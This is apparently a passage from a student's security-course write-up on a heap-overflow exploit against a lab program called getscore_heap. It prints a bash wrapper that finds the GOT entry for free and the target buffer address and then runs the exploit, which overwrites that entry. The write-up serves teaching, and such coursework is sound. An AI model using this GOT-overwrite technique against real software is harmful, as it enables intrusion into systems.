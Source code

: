 To generate the malicious input and perform the exploit, we have provided a wrapper script called `exploit.sh`. The contents of this script are seen below.

```bash
#!/bin/bash

# compile exploit.c and getscore_heap.c if they aren't already
gcc -g exploit.c -o exploit
gcc -g getscore_heap.c -o getscore_heap

# get parameters for exploit programmatically
BUF_LEN=128
GOT_FREE=0x`objdump -R getscore_heap | grep free | awk '{print $1}'`
BUF_ADDR=`gdb -batch -x gdbcommands.txt 2>/dev/null | grep '$1' | awk '{print $3}'`

# run the exploit with the parameters instantiated
./exploit $BUF_LEN $GOT_FREE $BUF_ADDR
```

The execution of this script involves three main steps. The first is to compile the `exploit.c` and `getscore_heap.c` files to the binary executables `exploit` and `getscore_heap`, respectively (with debugging enabled). The second is to automatically obtain the 3 parameters needed for running the compiled `exploit` executable, namely the buffer length, the GOT entry address to overwrite, and the target buffer address to overflow. The last step involves running the `exploit` executable with the obtained parameters from step 2. This exploit executable generates the input buffers to send to the victim `getscore_heap` program and runs the victim program with those buffers. This `exploit` program is a modification of the `heap_exploit` program provided by Dr. Bardas. The modifications simply involve the division of the inputs correctly between the 'name' and 'ssn' buffers as discussed earlier.

## References and Collaborations

### References

* [GDB Man Pages](https://man7.org/linux/man-pages/man1/gdb.1.html)

### Collaborations

I did not collaborate with any other students on this programming assignment.
